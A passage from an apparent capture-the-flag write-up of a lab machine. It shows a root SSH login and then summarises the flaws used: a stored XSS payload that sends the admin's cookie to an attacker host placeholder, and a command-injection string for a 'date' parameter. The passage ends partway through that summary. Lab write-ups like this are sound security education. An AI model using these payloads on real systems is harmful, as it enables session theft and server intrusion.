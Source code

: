 Let's try to authenticate on port 22 :

```bash
ssh root@10.10.11.8 -i /root/.ssh/id_rsa
```

Just to clarify, the `id_rsa` file is my own [private key](https://utimaco.com/service/knowledge-base/keys-secrets-management/private-key), we need the password for this key to be able to authenticate. Knowing that it's mine, I know the password.

```bash
Enter passphrase for key '/root/.ssh/id_rsa': 
Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug  4 13:04:10 2024 from 10.10.16.2
root@headless:~# id
uid=0(root) gid=0(root) groups=0(root)
root@headless:~# whoami
root
root@headless:~# hostname
headless
root@headless:~#
```

There you go ! Let's `summarize` the vulnerabilities, and see why they're so serious :

## Persistent XSS and Administrator Cookie stealing

1. **Persistent XSS ( Cross-Site Scripting )** :
   - An attacker injects malicious JavaScript into the support request form, which gets stored and later executed in the administrator's browser.

2. **Administrator Cookie Theft** :
   - By exploiting the XSS vulnerability, the attacker uses a payload to capture the administrator's session cookie when the administrator views the injected script. 
   - Payload : `<img src=x onerror=this.src='http://<IP>/?c='+document.cookie>`

### Severity Explanation

- **Persistent XSS** : This type of XSS is particularly severe because the malicious script is stored on the server and affects all users who access the infected page.
- **Cookie Theft** : Stealing an administrator's session cookie allows the attacker to impersonate the admin, potentially gaining full control over the web application.

## Command Injection and Reverse Shell

1. **Command Injection** :
   - The vulnerability allows an attacker to execute arbitrary commands on the server by injecting malicious input into the `date` parameter of a report generation request.
   - Exploitation : By injecting `id%20%23`, the attacker executes the `id` command to verify command execution.
